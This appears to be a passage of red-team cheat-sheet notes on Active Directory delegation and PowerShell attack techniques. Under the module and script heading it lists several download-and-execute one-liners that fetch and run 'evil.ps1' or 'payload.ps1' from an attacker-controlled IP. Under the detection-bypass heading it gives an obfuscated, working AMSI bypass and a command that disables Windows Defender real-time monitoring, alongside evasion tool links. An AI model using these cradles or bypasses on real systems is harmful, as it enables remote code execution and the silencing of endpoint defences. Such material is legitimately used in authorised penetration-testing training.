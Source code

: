 **Services that can be configured for delegation**
- HTTP - Used for web applications to allow pass-through authentication using AD credentials.
- CIFS - Common Internet File System is used for file sharing that allows delegation of users to shares.
- LDAP - Used to delegate to the LDAP service for actions such as resetting a user's password.
- HOST - Allows delegation of account for all activities on the host.
- MSSQL - Allows delegation of user accounts to the SQL service for pass-through authentication to databases.

**Basics commands**
- Perform a password reset
  - `Set-ADAccountPassword <UserName> -Reset -NewPassword (Read-Host -AsSecureString -Prompt 'New Password') -Verbose`
- Make user change password next logon
  - `Set-ADUser -ChangePasswordAtLogon $true -Identity <UserName> -Verbose`

**Work with modules and scripts**
Import a `.psd1` script (get all the commands from a module with `Get-Command -module <name-module>`)
- `Import-Module script.psd1`
- `iex (New-Object Net.WebClient).DownloadString('https://<IP>/payload.ps1')`
- `$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://<IP>/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response`
- PSv3 onwards: `iex(iwr 'http://<IP>/evil.ps1')`
- `$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://<IP>/evil.ps1',$false);$h.send();iex $h.responseText`
- `$wr = [System.NET.WebRequest]::Create("http://<IP>/evil.ps1")`<br/>
  `$r = $wr.GetResponse()`<br/>
  `IEX (System.IO.StreamReader).ReadToEnd()`

**PowerShell Detections**
- System-wide transcription
- Script Block logging
- AntiMalware Scan Interface (AMSI)
- Constrained Language Mode (CLM) - Integrated with Applocker and WDAC (Device Guard)

**PowerShell Detections bypass**
- Use [Invisi-Shell](https://github.com/OmerYa/Invisi-Shell) for bypassing the security controls in PowerShell
- [AMSITrigger](https://github.com/RythmStick/AMSITrigger) tool to identify the exact part of a script that is detected as malicious: `AmsiTrigger_x64.exe -i C:\AD\Tools\Invoke-PowerShellTcp_Detected.ps1`
- See [Amsi-Bypass-Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)
- AMSI Bypass
  - ```Powershell
    S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
    ```
  - If this fails, check [System-Attacks -> Bypass CLM / CLM breakout | CLM / AppLocker Break Out](../system-attacks/#bypass-clm--clm-breakout--clm--applocker-break-out)
- [DefenderCheck](https://github.com/t3hbb/DefenderCheck) to identify code and strings from a binary / file that Windows Defender may flag: `DefenderCheck.exe PowerUp.ps1`
- For full obfuscation of PowerShell scripts, see [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)
- AppLocker
  - Enumerate: `reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\SrpV2\Exe\`
  - Using PowerShell remoting
    1. `Enter-PSSession <computer>`
    2. `$ExecutionContext.SessionState.LanguageMode`
    3. `Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections`
- Disable defender: `Set-MpPreference -DisableRealtimeMonitoring $true`
